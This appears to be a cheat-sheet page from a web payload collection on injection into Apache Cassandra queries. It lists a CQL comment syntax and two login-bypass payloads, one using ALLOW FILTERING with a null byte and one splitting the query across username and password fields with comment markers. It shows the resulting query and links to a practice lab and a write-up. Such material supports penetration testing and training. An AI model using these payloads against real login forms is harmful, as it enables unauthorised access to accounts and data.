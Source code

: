 # Cassandra Injection

> Apache Cassandra is a free and open-source distributed wide column store NoSQL database management system

## Summary

* [Cassandra comment](#cassandra-comment)
* [Cassandra - Login Bypass](#cassandra---login-bypass)
  * [Login Bypass 0](#login-bypass-0)
  * [Login Bypass 1](#login-bypass-1)
* [References](#references) 

## Cassandra comment

```sql
/* Cassandra Comment */
```

## Cassandra - Login Bypass

### Login Bypass 0

```sql
username: admin' ALLOW FILTERING; %00
password: ANY
```

### Login Bypass 1

```sql
username: admin'/*
password: */and pass>'
```

The injection would look like the following SQL query

```sql
SELECT * FROM users WHERE user = 'admin'/*' AND pass = '*/and pass>'' ALLOW FILTERING;
```

Example from EternalNoob : [https://hack2learn.pw/cassandra/login.php](https://hack2learn.pw/cassandra/login.php)

## References

* [Injection In Apache Cassandra – Part I - Rodolfo - EternalNoobs](https://eternalnoobs.com/injection-in-apache-cassandra-part-i/)
